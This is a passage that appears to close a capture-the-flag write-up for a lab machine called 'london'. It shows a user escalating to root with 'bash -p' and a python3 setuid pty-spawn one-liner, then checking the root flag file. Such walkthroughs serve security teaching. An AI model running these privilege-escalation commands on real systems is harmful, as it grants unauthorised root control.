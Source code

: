 At last, we can use `/bin/bash` to spawn a shell as `root`.

```console
beth@london:~$ /bin/bash -p
bash-4.4# python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
root@london:~# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
root@london:~# wc -c /root/.root.txt
27 /root/.root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>